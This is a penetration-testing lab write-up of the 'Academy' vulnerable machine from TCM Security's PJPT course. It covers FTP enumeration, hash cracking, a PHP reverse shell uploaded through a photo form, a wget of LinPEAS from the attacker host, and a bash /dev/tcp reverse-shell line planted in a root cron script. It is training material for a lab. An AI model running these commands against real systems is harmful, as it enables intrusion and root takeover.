








# Academy

## Disclaimer
This writeup was completed as part of TCM Security's Practical Junior Penetration Tester (PJPT) certification. It is not designed to be a walkthrough of the box, nor is it intended to substitute attempting to exploit the box yourself. This writeup documents both my own attempt and the instructor's solution, as I was unable to complete this box independently. The Lessons Identified section reflects what I took away from the experience.

---

## Introduction
Academy is an open-source vulnerable machine exploited as part of the mid-course capstone for the TCM Security PJPT certification. My objective was to successfully compromise the machine and achieve root access. The only assistance provided was the username and password to log into the target machine directly, run `ip a`, and obtain the IP address — in this case `192.168.186.139`.

---

# My Approach
## Enumeration

Using Nmap, I scanned the target to identify open ports and services.

The scan revealed three open ports:

1. Port 21 (FTP) — Anonymous FTP login allowed
2. Port 22 (SSH) — OpenSSH 7.9p1 Debian
3. Port 80 (HTTP) — Apache httpd 2.4.38 (Debian)

I navigated to the web server in the browser, which displayed the Apache2 Debian default page. Viewing the page source revealed nothing of note.

I ran a Nikto scan against the target to identify further information.

Nikto identified a `/phpMyAdmin` directory.

I also ran a Dirbuster scan, which revealed an `/academy` directory containing a student registration portal.

I connected to the FTP server using anonymous login:

Username: Anonymous
Password: Random email address

This revealed a file named `note.txt`, which I downloaded using the `get` command.

The note contained a student registration number (10201321) and a hashed password (cd73502828457d15655bbd7a63fb0bc8).

I identified the hash as MD5 using hashes.com and cracked it, revealing the plaintext password: student.

---

## Exploitation
Using the credentials from the note, I attempted to log into the student portal at http://192.168.186.139/academy. After an initial VM corruption issue requiring the machine to be rebuilt, I successfully logged in using student registration number 10201321 and password student.

However, having gained access to the portal I was unable to progress further at this point, as the subsequent steps required knowledge of techniques not yet covered in the course at this stage.

---

# Instructor Solution
## Enumeration
The instructor followed the same Nmap methodology and obtained identical results.

For FTP, the instructor connected by entering Anonymous twice — using the word as both username and password — which also succeeded.

The note.txt file was downloaded in the same way using `get note.txt`.

Rather than an online tool, the instructor used the command line tool hash-identifier to identify the hash type:

hash-identifier
The hash was then cracked using Hashcat with the `rockyou` wordlist. The hash was first saved to a file: `mousepad hashes.txt`

Then cracked with: `hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`
The `-m 0` flag specifies MD5. This returned the cracked password: `student`.

For web directory discovery, the instructor demonstrated two additional tools alongside Dirbuster:

1. `dirb http://192.168.186.139`
2. `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.186.139/FUZZ`

Both tools identified the `/academy` directory, confirming the student portal location, which the instructor logged in to using the same credentials I had discovered.

---

## Exploitation

Once logged into the student portal, the instructor navigated to the profile section and identified a photo upload function. By uploading a test image and viewing it, the storage path was identified.

A PHP reverse shell was obtained from `pentestmonkey` and copied into a new file. The IP address and port parameters within the shell were updated to the attacker machine's IP and a chosen listener port.

A Netcat listener was set up on the attacker machine to catch the incoming connection: `nc -nvlp 1234`

The PHP reverse shell file was then uploaded via the photo upload function. The file executed automatically upon upload, and the Netcat listener received the reverse shell connection, providing access to the target machine as a low-privileged user.

---
## Post-Exploitation and Privilege Escalation
Having gained initial access, the instructor identified that the current user had limited privileges and that privilege escalation was required to achieve root.

`LinPEAS` was used to enumerate the target for privilege escalation opportunities. The LinPEAS script was copied from GitHub into a file on the attacker machine inside a transfers folder. A Python web server was then hosted from that folder: `python3 -m http.server 80`

On the target machine, the `/tmp` directory was used to download LinPEAS using: `wget http://192.168.186.128/linpeas.sh`

LinPEAS was made executable and run: `chmod +x linpeas.sh`
and `./linpeas.sh`

LinPEAS revealed the administrator's credentials, enabling SSH login as the administrator and access to `/phpMyAdmin`.

`pspy` was then downloaded to the attacker's web server and transferred to the target machine using the same `wget` method via the active SSH session. `pspy` revealed all running processes on the target without requiring root privileges, and identified that a script — `backup.sh`, located in the administrator's home directory — was being executed automatically and repeatedly by root as a scheduled cron job.

A bash reverse shell one liner was inserted into backup.sh:

`bash -i >& /dev/tcp/192.168.186.128/8080 0>&1`

A second Netcat listener was set up on the attacker machine on port 8080. When the cron job next executed backup.sh, the one liner ran as root, and the listener received a root reverse shell — completing the privilege escalation and fully compromising the machine.

---

# Lessons Identified
1. Anonymous FTP login is a common misconfiguration and should always be tested when FTP is identified as open during enumeration. Entering Anonymous as both the username and password is an alternative approach to using an email address as the password.
2. `hash-identifier` is a command line alternative to online hash identification tools and keeps the workflow entirely local — preferable in real engagements where exfiltrating data to third party sites would be inappropriate.
3. Hashcat is a more professional and repeatable method of cracking hashes than online tools, and works offline. The -m 0 flag specifies MD5.
4. `dirb` and `ffuf` are alternatives to Dirbuster for web directory enumeration. Having multiple tools available is useful as results can vary between them.
5. File upload functions are a significant attack vector. When a web application allows file uploads, it is worth testing whether the application validates file types — uploading a PHP reverse shell in place of an image is a well-known technique for gaining initial access.
6. LinPEAS automates the process of enumerating a Linux target for privilege escalation opportunities, and can reveal credentials stored on the system.
7. Hosting a Python web server via `python3 -m http.server 80` is a simple and effective method of transferring files to a target machine during an engagement.
8. `pspy` allows processes to be monitored on a target without root privileges, making it valuable for identifying scheduled tasks (cron jobs) that may be exploitable.
9. Cron jobs running as root are a significant privilege escalation vector. If a script executed by a root cron job is writable by a lower-privileged user, inserting a reverse shell one liner into that script will result in a root shell when the job next runs.
10. The VM became corrupted during this lab, causing the database to become inaccessible and was only resolved by rebuilding the machine from the original image. This caused me to initially be unable to log in to the student portal, despite having correctly found the breached credentials, and therefore halted my progress. It wasn't until I watched the instructor solution that I realised I was on the right path up until this point, suggesting the original connectivity problem was a VM state issue rather than incorrect credentials.

---

## Tools Used
- **Nikto** — web server vulnerability scanning
- **Dirbuster** / dirb / ffuf — web directory enumeration
- **Hashcat** — password hash cracking
- **Netcat** — listener for reverse shell connections
- **LinPEAS** — Linux privilege escalation enumeration
- **pspy** — process monitoring without root privileges
- **Python HTTP Server** — file transfer via temporary web server